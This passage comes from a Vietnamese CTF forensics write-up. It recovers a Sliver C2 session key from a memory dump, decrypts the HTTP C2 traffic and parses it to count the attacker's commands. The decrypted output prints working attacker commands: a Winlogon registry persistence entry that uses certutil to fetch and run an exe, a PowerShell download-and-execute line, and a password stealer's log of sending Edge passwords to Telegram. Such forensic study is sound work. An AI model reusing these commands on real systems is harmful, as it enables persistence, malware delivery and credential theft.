`/assets/js/jquery.min.js hoặc /static/scripts/app.js`
nhưng trong bài này thì nó là 
```
/assets/assets/scripts/jscript/js/bundles/jquery.min.js?w=62888572 hoặc /umd/bundle/js/umd/assets/jquery.min.js?q=65606922
```
đây là bằng chứng cho việc nó tự sinh ra các url tự động và rất có thể đây là quá trình mà tương tác, ta sẽ lấy mốc đầu tiên
ngoải ra khi ta đọc ta còn dễ dàng thấy được nó gửi qua những mốc tg rất ngẫu nhiên 
:50 -> :51 (cách 1s)
:51 -> :52 (cách 1s)
:52 -> :55 (cách 3s)
:55 -> :57 (cách 2s)
:57 -> :58 (cách 1s)
vậy cái đầu tiên sẽ rơi vào mốc 50
```
GET /bundles/javascript/scripts/bundles/bundles/bundle/jquery.js?x=20591x323 HTTP/1.1
Host: 192.168.20.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.6131.287 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
Cookie: SSID=334d047e334406cbb45100a07cbad47d
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip


HTTP/1.1 200 OK
Date: Sun, 09 Nov 2025 01:03:50 GMT
Content-Length: 339
Content-Type: application/x-gzip

...........7....=.....P....	..6.....yE......g...xI<0cu..+z$....s.e.Kpwj0...Mi...!......M.?....H.........&...fx.d..Pxh.c..-x....#.m
+.a4r
.....s...H.)r.E........R	.p.` .G\G..u.hX..A{...16..J.....|\*.j...0!q... ..KR.r...	......;..s<.1Z..g.....p.+....@	.........P'....P.(.>.1
.z.)i...+.*7...Xy.....
_...,..S.......a..M.
|^...f2.K.........7...
```
->11-09-2025 01:03:50



# q11 How many different commands did the attacker execute?

ta được biết rằng trong bài này attacker sẽ gõ lệnh từ sliver server và command được attacker gửi qua http C2 vì vậy mà command cần tìm sẽ nằm trong Sliver HTTP traffic tuy nhiên mấu chốt là ta cần key để giải từ đó mới thực thi lệnh được đầu tiên ta sẽ dump svhost ra nó là PID 12984 trước đó mình đã có ssid cookie rồi đó là SSID=334d047e334406cbb45100a07cbad47d

```
┌──(vuanh㉿VanhNguyen)-[/mnt/d/Data/chall/goat/dumps]
└─$ grep -abo '334d047e334406cbb45100a07cbad47d' pid.12984.dmp
8842101:334d047e334406cbb45100a07cbad47d
8843253:334d047e334406cbb45100a07cbad47d
8846805:334d047e334406cbb45100a07cbad47d
9142670:334d047e334406cbb45100a07cbad47d
9163168:334d047e334406cbb45100a07cbad47d
9236889:334d047e334406cbb45100a07cbad47d
9286071:334d047e334406cbb45100a07cbad47d
9318786:334d047e334406cbb45100a07cbad47d
9384350:334d047e334406cbb45100a07cbad47d
9400721:334d047e334406cbb45100a07cbad47d
9544085:334d047e334406cbb45100a07cbad47d
9552255:334d047e334406cbb45100a07cbad47d
9597372:334d047e334406cbb45100a07cbad47d
9781698:334d047e334406cbb45100a07cbad47d
9789846:334d047e334406cbb45100a07cbad47d
10023181:334d047e334406cbb45100a07cbad47d
10275221:334d047e334406cbb45100a07cbad47d
10275413:334d047e334406cbb45100a07cbad47d
10276037:334d047e334406cbb45100a07cbad47d
10276229:334d047e334406cbb45100a07cbad47d
10276373:334d047e334406cbb45100a07cbad47d
10276517:334d047e334406cbb45100a07cbad47d
10276853:334d047e334406cbb45100a07cbad47d
10276997:334d047e334406cbb45100a07cbad47d
10277093:334d047e334406cbb45100a07cbad47d
10277285:334d047e334406cbb45100a07cbad47d
10277477:334d047e334406cbb45100a07cbad47d
10277717:334d047e334406cbb45100a07cbad47d
10277765:334d047e334406cbb45100a07cbad47d
10277957:334d047e334406cbb45100a07cbad47d
10278245:334d047e334406cbb45100a07cbad47d
10278293:334d047e334406cbb45100a07cbad47d
10278485:334d047e334406cbb45100a07cbad47d
10278629:334d047e334406cbb45100a07cbad47d
10278821:334d047e334406cbb45100a07cbad47d
10278965:334d047e334406cbb45100a07cbad47d
10279205:334d047e334406cbb45100a07cbad47d
10279445:334d047e334406cbb45100a07cbad47d
10279637:334d047e334406cbb45100a07cbad47d
10279781:334d047e334406cbb45100a07cbad47d
10279829:334d047e334406cbb45100a07cbad47d
10279973:334d047e334406cbb45100a07cbad47d
11166104:334d047e334406cbb45100a07cbad47d
11182489:334d047e334406cbb45100a07cbad47d
11358602:334d047e334406cbb45100a07cbad47d
11366797:334d047e334406cbb45100a07cbad47d
11375004:334d047e334406cbb45100a07cbad47d
11378789:334d047e334406cbb45100a07cbad47d
11378933:334d047e334406cbb45100a07cbad47d
11395478:334d047e334406cbb45100a07cbad47d
11403647:334d047e334406cbb45100a07cbad47d
11608451:334d047e334406cbb45100a07cbad47d
11690374:334d047e334406cbb45100a07cbad47d
11731325:334d047e334406cbb45100a07cbad47d
11895192:334d047e334406cbb45100a07cbad47d
11907269:334d047e334406cbb45100a07cbad47d
11972736:334d047e334406cbb45100a07cbad47d
11993141:334d047e334406cbb45100a07cbad47d
11993429:334d047e334406cbb45100a07cbad47d
11993621:334d047e334406cbb45100a07cbad47d
11993813:334d047e334406cbb45100a07cbad47d
11994053:334d047e334406cbb45100a07cbad47d
11994293:334d047e334406cbb45100a07cbad47d
11994389:334d047e334406cbb45100a07cbad47d
11994533:334d047e334406cbb45100a07cbad47d
11994725:334d047e334406cbb45100a07cbad47d
11994869:334d047e334406cbb45100a07cbad47d
11995061:334d047e334406cbb45100a07cbad47d
11995205:334d047e334406cbb45100a07cbad47d
11995253:334d047e334406cbb45100a07cbad47d
11995397:334d047e334406cbb45100a07cbad47d
11995493:334d047e334406cbb45100a07cbad47d
11995589:334d047e334406cbb45100a07cbad47d
11995781:334d047e334406cbb45100a07cbad47d
11996021:334d047e334406cbb45100a07cbad47d
11996213:334d047e334406cbb45100a07cbad47d
11996405:334d047e334406cbb45100a07cbad47d
11996693:334d047e334406cbb45100a07cbad47d
11996885:334d047e334406cbb45100a07cbad47d
11997173:334d047e334406cbb45100a07cbad47d
11997461:334d047e334406cbb45100a07cbad47d
11997701:334d047e334406cbb45100a07cbad47d
12136693:334d047e334406cbb45100a07cbad47d
12136837:334d047e334406cbb45100a07cbad47d
12136981:334d047e334406cbb45100a07cbad47d
12137125:334d047e334406cbb45100a07cbad47d
12137269:334d047e334406cbb45100a07cbad47d
12137413:334d047e334406cbb45100a07cbad47d
12137557:334d047e334406cbb45100a07cbad47d
12137797:334d047e334406cbb45100a07cbad47d
12138133:334d047e334406cbb45100a07cbad47d
12138277:334d047e334406cbb45100a07cbad47d
12138469:334d047e334406cbb45100a07cbad47d
12138613:334d047e334406cbb45100a07cbad47d
12138805:334d047e334406cbb45100a07cbad47d
12138949:334d047e334406cbb45100a07cbad47d
12138997:334d047e334406cbb45100a07cbad47d
12139189:334d047e334406cbb45100a07cbad47d
12139429:334d047e334406cbb45100a07cbad47d
12139573:334d047e334406cbb45100a07cbad47d
12139717:334d047e334406cbb45100a07cbad47d
12139861:334d047e334406cbb45100a07cbad47d
12139957:334d047e334406cbb45100a07cbad47d
12361989:334d047e334406cbb45100a07cbad47d
13377954:334d047e334406cbb45100a07cbad47d
13414696:334d047e334406cbb45100a07cbad47d
```
mình lúc đó đã dùng script để lọc mớ này, ta được biết rằng malware này dùng ngôn ngữ go cơ mà ngôn ngữ go nó sẽ lưu strings dưới dạng pointer và length, ta sẽ dùng script để có thể dò được 

```
cat > check_ssid_offsets_fast.py <<'PY'
#!/usr/bin/env python3
from pathlib import Path
import struct
import re

DUMP = Path("pid.12984.dmp")
SSID = b"334d047e334406cbb45100a07cbad47d"

ANCHOR_FILE = 0xb6b080
ANCHOR_VA   = 0xc000416080
DELTA = ANCHOR_VA - ANCHOR_FILE

PTR_SIZE = 8
SESSION_ID_LEN = 0x20

def u64_at(data, off):
    return struct.unpack_from("<Q", data, off)[0]

dump = DUMP.read_bytes()
size = len(dump)

raw_offsets = [m.start() for m in re.finditer(re.escape(SSID), dump)]
raw_va_to_off = {off + DELTA: off for off in raw_offsets}

print(f"[+] dump size: {size:#x}")
print(f"[+] raw SSID copies: {len(raw_offsets)}")
print(f"[+] scanning dump once for Go string headers...")
print()

usable = []

# Scan 8-byte aligned offsets only. Go heap pointers/string headers are aligned.
for hdr_off in range(0, size - 16, 8):
    ptr = u64_at(dump, hdr_off)

    raw_off = raw_va_to_off.get(ptr)
    if raw_off is None:
        continue

    strlen = u64_at(dump, hdr_off + 8)
    if strlen != SESSION_ID_LEN:
        continue

    client_off = hdr_off - 9 * PTR_SIZE
    if client_off < 0:
        continue

    usable.append((
        raw_off,
        ptr,
        hdr_off,
        hdr_off + DELTA,
        client_off,
        client_off + DELTA,
    ))

print("[+] Usable SSID candidates:")
for raw_off, raw_va, hdr_off, hdr_va, client_off, client_va in usable:
    print(f"raw_off={raw_off:<10} {raw_off:#x}")
    print(f"  raw_va       = {raw_va:#x}")
    print(f"  header_off   = {hdr_off:#x}")
    print(f"  header_va    = {hdr_va:#x}")
    print(f"  client_off   = {client_off:#x}")
    print(f"  client_va    = {client_va:#x}")
    print()

print(f"[+] Total usable candidates: {len(usable)}")

if usable:
    print("[+] Best known candidate should include:")
    print("    raw_off    0xb6b080")
    print("    header_off 0x95f448")
    print("    client_off 0x95f400")
PY

python3 check_ssid_offsets_fast.py
[+] dump size: 0x7afc0000
[+] raw SSID copies: 121
[+] scanning dump once for Go string headers...

[+] Usable SSID candidates:
raw_off=11972736   0xb6b080
  raw_va       = 0xc000416080
  header_off   = 0x95f448
  header_va    = 0xc00020a448
  client_off   = 0x95f400
  client_va    = 0xc00020a400

[+] Total usable candidates: 1
[+] Best known candidate should include:
    raw_off    0xb6b080
    header_off 0x95f448
    client_off 0x95f400
```
raw_off    = 0xb6b080   nơi chứa chữ SSID
header_off = 0x95f448   Go string header trỏ tới SSID đó
client_off = 0x95f400   SliverHTTPClient object
ở đây khi ta dùng lệnh
`xxd -s 0x95f400 -l 0x120 pid.12984.dmp` nghĩa là xem coi quanh client_off có gì

ở đây
client + 0x40 = 0xc00025ed50       SessionCtx pointer
client + 0x48 = 0xc000416080       SessionID string data pointer
client + 0x50 = 0x20               SessionID length = 32
hay nói cách khác là mớ này
0x95f440: 50 ed 25 00 c0 00 00 00
0x95f448: 80 60 41 00 c0 00 00 00
0x95f450: 20 00 00 00 00 00 00 00
SessionCtx là crypto context của Sliver HTTP có thể hiểu là khi attacker truyền lệnh qua sliver server nó sẽ được mã hóa và gửi qua máy nạn nhân, máy nạn nhân sẽ dùng key lưu trong SessionCtx để giải mã và thực thi lệnh
ở offset 0x95f440 ta trích xuất 32 byte đầu
```
┌──(vuanh㉿VanhNguyen)-[/mnt/d/Data/chall/goat/dumps]
└─$ xxd -s 0xa34d50 -l 32 -p pid.12984.dmp
695d219063e6c41c5678ce0264c46dafa9454ed39c59f9eb8d03677119a2dfae
```
"695d219063e6c41c5678ce0264c46dafa9454ed39c59f9eb8d03677119a2dfae" ta đã có key bây giờ sẽ tiến hành giải mã 
scrypt giải mã
```
#!/usr/bin/env python3
import base64
import gzip
import re
import subprocess
from datetime import datetime, timezone
from pathlib import Path

from chacha20poly1305 import ChaCha20Poly1305

KEY = bytes.fromhex(
    "695d219063e6c41c5678ce0264c46dafa9454ed39c59f9eb8d03677119a2dfae"
)

PCAP = Path("sliver-http-only.pcapng")
OUTDIR = Path("decrypted_sliver")
OUTDIR.mkdir(exist_ok=True)

ENCODERS = {
    13: "b64",
    31: "words",
    22: "png",
    43: "b58",
    45: "gzip-words",
    49: "gzip",
    64: "gzip-b64",
    65: "b32",
    92: "hex",
}

BASE64_STANDARD = b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
BASE64_MODIFIED = b"a0b2c5def6hijklmnopqr_st-uvwxyzA1B3C4DEFGHIJKLM7NO9PQR8ST+UVWXYZ"


def encoder_from_uri(uri: str):
    query = uri.split("?", 1)[1] if "?" in uri else ""
    for part in re.split("[=&]", query):
        digits = re.sub("[^0-9]", "", part)
        if not digits:
            continue
        enc = ENCODERS.get(int(digits) % 101)
        if enc:
            return enc
    return None


def decode_words(data: bytes, compressed=False) -> bytes:
    decoded = bytes(sum(map(ord, word)) % 256 for word in data.decode("latin1").split())
    return gzip.decompress(decoded) if compressed else decoded


def b64_variants(data: bytes):
    clean = b"".join(data.split())
    table = bytes.maketrans(BASE64_MODIFIED, BASE64_STANDARD)

    variants = [
        ("std", clean),
        ("url", clean.replace(b"-", b"+").replace(b"_", b"/")),
        ("mod", clean.translate(table)),
    ]

    seen = set()
    for name, value in variants:
        try:
            value = re.sub(rb"[^A-Za-z0-9+/=]", b"", value)
            value += b"=" * ((4 - len(value) % 4) % 4)
            decoded = base64.b64decode(value)
        except Exception:
            continue

        if decoded not in seen:
            seen.add(decoded)
            yield name, decoded


def decode_payload_variants(body: bytes, encoder: str | None):
    def attempt(name, func):
        try:
            return [(name, func())]
        except Exception:
            return []

    if encoder == "hex":
        return attempt("hex", lambda: bytes.fromhex(re.sub(rb"[^0-9a-fA-F]", b"", body).decode()))

    if encoder == "gzip":
        return attempt("gzip", lambda: gzip.decompress(body))

    if encoder == "b64":
        return [(f"b64-{name}", decoded) for name, decoded in b64_variants(body)]

    if encoder == "gzip-b64":
        out = []
        for name, decoded in b64_variants(body):
            out += attempt(f"gzip-b64-{name}", lambda decoded=decoded: gzip.decompress(decoded))
        return out

    if encoder == "words":
        return attempt("words", lambda: decode_words(body))

    if encoder == "gzip-words":
        return (
            attempt("gzip-words", lambda: decode_words(body, compressed=True))
            + attempt("gzip-only", lambda: gzip.decompress(body))
        )

    return []


def decrypt_sliver(ciphertext: bytes) -> bytes | None:
    if len(ciphertext) < 28:
        return None

    try:
        compressed = ChaCha20Poly1305(KEY).decrypt(ciphertext[:12], ciphertext[12:])
        return gzip.decompress(compressed)
    except Exception:
        return None


def extract_http_file_data():
    fields = [
        "frame.number",
        "frame.time_epoch",
        "ip.src",
        "ip.dst",
        "http.request.method",
        "http.response.code",
        "http.request.full_uri",
        "http.file_data",
    ]

    cmd = [
        "tshark",
        "-r",
        str(PCAP),
        "-Y",
        "http.file_data",
        "-T",
        "fields",
        "-E",
        "separator=|",
        "-E",
        "occurrence=f",
    ]

    for field in fields:
        cmd += ["-e", field]

    output = subprocess.check_output(cmd, text=True, errors="replace")

    for line in output.splitlines():
        parts = line.split("|", 7)
        if len(parts) != 8:
            continue

        frame, epoch, src, dst, method, code, uri, file_data = parts

        if not file_data:
            continue

        try:
            body = bytes.fromhex(file_data)
        except ValueError:
            continue

        yield {
            "frame": int(frame),
            "epoch": float(epoch),
            "src": src,
            "dst": dst,
            "method": method,
            "code": code,
            "uri": uri,
            "body": body,
        }


def preview(data: bytes, limit=220) -> str:
    return "".join(chr(c) if 32 <= c < 127 else "." for c in data[:limit])


def main():
    if not PCAP.exists():
        raise SystemExit(f"Missing {PCAP}")

    hits = 0

    for item in extract_http_file_data():
        encoder = encoder_from_uri(item["uri"])

        for variant, ciphertext in decode_payload_variants(item["body"], encoder):
            plaintext = decrypt_sliver(ciphertext)
            if plaintext is None:
                continue

            hits += 1

            utc = datetime.fromtimestamp(item["epoch"], timezone.utc).strftime("%Y-%m-%d %H:%M:%S")
            direction = "C2->implant" if item["src"] == "192.168.20.3" else "implant->C2"
            action = item["method"] or item["code"]

            out = OUTDIR / f"frame_{item['frame']}_{encoder}_{variant}.dec"
            out.write_bytes(plaintext)

            print(f"[+] frame={item['frame']} time={utc} dir={direction} http={action}")
            print(f"    encoder={encoder} variant={variant} len={len(plaintext)}")
            print(f"    uri={item['uri']}")
            print(f"    out={out}")
            print(f"    preview={preview(plaintext)}")
            print()

    print(f"[+] total decrypted payloads: {hits}")


if __name__ == "__main__":
    main()

```
sau khi chạy mình được
```
python3 decrypt_sliver.py
[+] frame=3 time=2025-11-09 01:02:30 dir=C2->implant http=200
    encoder=gzip-b64 variant=gzip-b64-mod len=32
    uri=http://192.168.20.3:8888/namespaces/db/oauth2/oauth2/db/admin.html?kf=8868806u8&m=9074813
    out=decrypted_sliver/frame_3_gzip-b64_gzip-b64-mod.dec
    preview=334d047e334406cbb45100a07cbad47d

[+] frame=5 time=2025-11-09 01:02:30 dir=implant->C2 http=POST
    encoder=words variant=words len=369
    uri=http://192.168.20.3:8888/login.php?o=85c336345
    out=decrypted_sliver/frame_5_words_words.dec
    preview=.......INTEGRAL_STROKE..windows11.$ba9f8ddc-3305-4229-b47c-483d085a1d66".WINDOWS11\nh0kt1g3r12*,S-1-5-21-3558265190-190559637-539419846-10002+S-1-5-21-3558265190-190559637-539419846-513:.windowsB.amd64H.eR/C:\Users\NH0KT

[+] frame=35 time=2025-11-09 01:02:57 dir=C2->implant http=200
    encoder=words variant=words len=72
    uri=http://192.168.20.3:8888/jquery.min.js?z=k37738580
    out=decrypted_sliver/frame_35_words_words.dec
    preview=..............9@........bJ-.......J$3721c701-10f2-4e1b-951c-4ebf29d23125

[+] frame=37 time=2025-11-09 01:02:57 dir=implant->C2 http=POST
    encoder=gzip variant=gzip len=26
    uri=http://192.168.20.3:8888/sign-up.php?w=55952433
    out=decrypted_sliver/frame_37_gzip_gzip.dec
    preview=...............-@........b

[+] frame=81 time=2025-11-09 01:03:41 dir=implant->C2 http=POST
    encoder=gzip variant=gzip len=40
    uri=http://192.168.20.3:8888/authenticate/oauth2callback/db/database/oauth/api.php?_=22904324
    out=decrypted_sliver/frame_81_gzip_gzip.dec
    preview=...$..PS C:\Windows\System32> @........b

[+] frame=91 time=2025-11-09 01:03:50 dir=C2->implant http=200
    encoder=gzip variant=gzip len=315
    uri=http://192.168.20.3:8888/bundles/javascript/scripts/bundles/bundles/bundle/jquery.js?x=20591x323
    out=decrypted_sliver/frame_91_gzip_gzip.dec
    preview=........reg add "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "explorer.exe,cmd.exe /c certutil -urlcache -split -f http://192.168.20.3/cailonmemay.exe %TEMP%\svhost.exe & %TEMP%\svho

[+] frame=94 time=2025-11-09 01:03:50 dir=implant->C2 http=POST
    encoder=b64 variant=b64-mod len=21
    uri=http://192.168.20.3:8888/oauth2/login.php?z=32400106
    out=decrypted_sliver/frame_94_b64_b64-mod.dec
    preview=......r.. .@........b

[+] frame=97 time=2025-11-09 01:03:50 dir=implant->C2 http=POST
    encoder=hex variant=hex len=60
    uri=http://192.168.20.3:8888/oauth2/oauth2/oauth/oauth2callback/database/db/signin.php?r=65493037
    out=decrypted_sliver/frame_97_hex_hex.dec
    preview=...8.(The operation completed successfully...... .@........b

[+] frame=99 time=2025-11-09 01:03:51 dir=implant->C2 http=POST
    encoder=b64 variant=b64-mod len=44
    uri=http://192.168.20.3:8888/oauth/db/oauth2callback/namespaces/namespaces/oauth2callback/login.php?w=q13882766
    out=decrypted_sliver/frame_99_b64_b64-mod.dec
    preview=...(..PS C:\Windows\System32> .. .@........b

[+] frame=109 time=2025-11-09 01:03:58 dir=C2->implant http=200
    encoder=gzip variant=gzip len=162
    uri=http://192.168.20.3:8888/jquery.min.js?m=545718t0
    out=decrypted_sliver/frame_109_gzip_gzip.dec
    preview=......iiwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2...@........bJ$3721c701-10f2-4e1b-951c-4ebf29d23125

[+] frame=111 time=2025-11-09 01:03:58 dir=implant->C2 http=POST
    encoder=hex variant=hex len=124
    uri=http://192.168.20.3:8888/namespaces/db/admin.php?q=45713v197
    out=decrypted_sliver/frame_111_hex_hex.dec
    preview=...x.hwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2... .@........b

[+] frame=459 time=2025-11-09 01:09:50 dir=implant->C2 http=POST
    encoder=b64 variant=b64-mod len=538
    uri=http://192.168.20.3:8888/oauth/oauth2callback/oauth2/authenticate/login.php?n=68g51720t1
    out=decrypted_sliver/frame_459_b64_b64-mod.dec
    preview=........=== MICROSOFT EDGE PASSWORD EXTRACTOR ===..Starting Edge password extraction......... Edge encryption key extracted successfully...... Processing Edge profile: Default..... Extracted 1 passwords from profile Defa

[+] frame=465 time=2025-11-09 01:09:52 dir=implant->C2 http=POST
    encoder=hex variant=hex len=44
    uri=http://192.168.20.3:8888/namespaces/oauth2callback/namespaces/namespaces/oauth2callback/oauth2/admin.php?p=81091477
    out=decrypted_sliver/frame_465_hex_hex.dec
    preview=...(..PS C:\Windows\System32> .. .@........b

[+] total decrypted payloads: 13
```
vì mớ này mới chỉ là protobuf bytes nên vẫn khá khó đọc, ta sẽ parse protobuf để dễ đọc hơn
```
#!/usr/bin/env python3
import sys
from pathlib import Path

sys.path.insert(0, "SliverC2-Forensics")

from google.protobuf.message import DecodeError
from protobufs import sliver_pb2


def text_preview(data: bytes, limit=200):
    return "".join(chr(c) if 32 <= c < 127 or c in (10, 13, 9) else "." for c in data[:limit])


def parse_one(path):
    data = Path(path).read_bytes()

    print("=" * 100)
    print(path)

    env = sliver_pb2.Envelope()

    try:
        env.ParseFromString(data)
    except DecodeError:
        print("[not a valid Envelope]")
        print("preview:")
        print(text_preview(data))
        return

    print("Envelope.Type:", env.Type)

    if env.Type == 20:
        shell = sliver_pb2.ShellReq()
        try:
            shell.ParseFromString(env.Data)
            print("[ShellReq]")
            print(shell)
        except DecodeError:
            print("[ShellReq parse failed]")
            print(text_preview(env.Data))

    elif env.Type == 22:
        tunnel = sliver_pb2.TunnelData()
        try:
            tunnel.ParseFromString(env.Data)
            print("[TunnelData]")
            print("Sequence:", tunnel.Sequence)
            print("Ack:", tunnel.Ack)
            print("TunnelID:", tunnel.TunnelID)
            print("Data repr:", repr(tunnel.Data))
            print("Data text:")
            print(tunnel.Data.decode("utf-8", errors="replace"))
        except DecodeError:
            print("[TunnelData parse failed]")
            print(text_preview(env.Data))

    else:
        print("[Envelope raw]")
        print(env)
        if env.Data:
            print("Data preview:")
            print(text_preview(env.Data))


if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} decrypted_sliver/*.dec")
    raise SystemExit(1)

for p in sorted(sys.argv[1:]):
    parse_one(p)
```
kết quả khi chạy script này sẽ là 
```
====================================================================================================
decrypted_sliver/frame_109_gzip_gzip.dec
Envelope.Type: 22
[TunnelData]
Sequence: 1
Ack: 0
TunnelID: 7069037690367986217
Data repr: b'iwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\\explorer.exe"; & "$env:TEMP\\explorer.exe"; sleep 2\n'
Data text:
iwr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2

====================================================================================================
decrypted_sliver/frame_111_hex_hex.dec
Envelope.Type: 22
[TunnelData]
Sequence: 6
Ack: 2
TunnelID: 7069037690367986217
Data repr: b'wr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\\explorer.exe"; & "$env:TEMP\\explorer.exe"; sleep 2\n'
Data text:
wr http://192.168.20.3/concacbamay.exe -o "$env:TEMP\explorer.exe"; & "$env:TEMP\explorer.exe"; sleep 2

====================================================================================================
decrypted_sliver/frame_35_words_words.dec
Envelope.Type: 20
[ShellReq]
TunnelID: 7069037690367986217
Request {
  Timeout: 60000000000
  SessionID: "3721c701-10f2-4e1b-951c-4ebf29d23125"
}

====================================================================================================
decrypted_sliver/frame_37_gzip_gzip.dec
Envelope.Type: 0
[Envelope raw]
ID: -710235893407480064
Data: "\030\230-@\251\224\355\261\267\212\221\215b"

Data preview:
..-@........b
====================================================================================================
decrypted_sliver/frame_3_gzip-b64_gzip-b64-mod.dec
[not a valid Envelope]
preview:
334d047e334406cbb45100a07cbad47d
====================================================================================================
decrypted_sliver/frame_459_b64_b64-mod.dec
Envelope.Type: 22
[TunnelData]
Sequence: 7
Ack: 2
TunnelID: 7069037690367986217
Data repr: b'=== MICROSOFT EDGE PASSWORD EXTRACTOR ===\r\nStarting Edge password extraction...\r\n\xf0\x9f\x94\x91 Edge encryption key extracted successfully\r\n\xf0\x9f\x93\x81 Processing Edge profile: Default\r\n\xe2\x9c\x85 Extracted 1 passwords from profile Default\r\nExtracted 1 passwords from Edge\r\nExtracted 1 Edge passwords, preparing encryption...\r\nOriginal data size: 249 characters\r\nEncrypted data size: 344 characters\r\nSending 1 encrypted chunks...\r\n\xe2\x9c\x85 Chunk 1/1 sent successfully\r\nTransmission complete: 1 chunks sent\r\nEncrypted Edge data sent to Telegram\r\n'
Data text:
=== MICROSOFT EDGE PASSWORD EXTRACTOR ===
Starting Edge password extraction...
🔑 Edge encryption key extracted successfully
📁 Processing Edge profile: Default
✅ Extracted 1 passwords from profile Default
Extracted 1 passwords from Edge
Extracted 1 Edge passwords, preparing encryption...
Original data size: 249 characters
Encrypted data size: 344 characters
Sending 1 encrypted chunks...
✅ Chunk 1/1 sent successfully
Transmission complete: 1 chunks sent
Encrypted Edge data sent to Telegram

====================================================================================================
decrypted_sliver/frame_465_hex_hex.dec
Envelope.Type: 22
[TunnelData]
Sequence: 8
Ack: 2
TunnelID: 7069037690367986217
Data repr: b'PS C:\\Windows\\System32> '
Data text:
PS C:\Windows\System32>
====================================================================================================
decrypted_sliver/frame_5_words_words.dec
Envelope.Type: 1
[Envelope raw]
Type: 1
Data: "\n\017INTEGRAL_STROKE\022\twindows11\032$ba9f8ddc-3305-4229-b47c-483d085a1d66\"\025WINDOWS11\\nh0kt1g3r12*,S-1-5-21-3558265190-190559637-539419846-10002+S-1-5-21-3558265190-190559637-539419846-513:\007windowsB\005amd64H\270eR/C:\\Users\\NH0KT1~1\\AppData\\Local\\Temp\\svhost.exeZ\031https://192.168.20.3:8888b\02510 build 26200 x86_64h\200\260\235\302\337\001\202\001$ab59f957-1b92-406c-b501-ffd251afebe8\210\001\243\271\336\225\265\240\272\242\270\001\222\001\005en-US"

Data preview:

.INTEGRAL_STROKE.       windows11.$ba9f8ddc-3305-4229-b47c-483d085a1d66".WINDOWS11\nh0kt1g3r12*,S-1-5-21-3558265190-190559637-539419846-10002+S-1-5-21-3558265190-190559637-539419846-513:.windowsB.amd64H.eR
====================================================================================================
decrypted_sliver/frame_81_gzip_gzip.dec
Envelope.Type: 22
[TunnelData]
Sequence: 0
Ack: 0
TunnelID: 7069037690367986217
Data repr: b'PS C:\\Windows\\System32> '
Data text:
PS C:\Windows\System32>
====================================================================================================
decrypted_sliver/frame_91_gzip_gzip.dec
Envelope.Type: 22
[TunnelData]
Sequence: 0
Ack: 0
TunnelID: 7069037690367986217
Data repr: b'reg add "HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v Shell /t REG_SZ /d "explorer.exe,cmd.exe /c certutil -urlcache -split -f http://192.168.20.3/cailonmemay.exe %TEMP%\\svhost.exe & %TEMP%\\svhost.exe & timeout 3 & del %TEMP%\\svhost.exe" /f\n'
Data text:
reg add "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /t REG_SZ /d "explorer.exe,cmd.exe /c certutil -urlcache -split -f http://192.168.20.3/cailonmemay.exe %TEMP%\svhost.exe & %TEMP%\svhost.exe & timeout 3 & del %TEMP%\svhost.exe" /f

====================================================================================================
decrypted_sliver/frame_94_b64_b64-mod.dec
Envelope.Type: 22
[TunnelData]
Sequence: 1
Ack: 1
TunnelID: 7069037690367986217
Data repr: b'r'
Data text:
r
====================================================================================================
decrypted_sliver/frame_97_hex_hex.dec
Envelope.Type: 22
[TunnelData]
Sequence: 3
Ack: 1
TunnelID: 7069037690367986217
Data repr: b'The operation completed successfully.\r\r\n'
Data text:
The operation completed successfully.

====================================================================================================
decrypted_sliver/frame_99_b64_b64-mod.dec
Envelope.Type: 22
[TunnelData]
Sequence: 4
Ack: 1
TunnelID: 7069037690367986217
Data repr: b'PS C:\\Windows\\System32> '
Data text:
PS C:\Windows\System32>
```
vậy tổng sẽ là 3 lệnh
đầu tiên attacker mở shell
```
decrypted_sliver/frame_35_words_words.dec
Envelope.Type: 20
[ShellReq]
TunnelID: 7069037690367986217
Request {
  Timeout: 60000000000
  SessionID: "3721c701-10f2-4e1b-951c-4ebf29d23125"
}
```
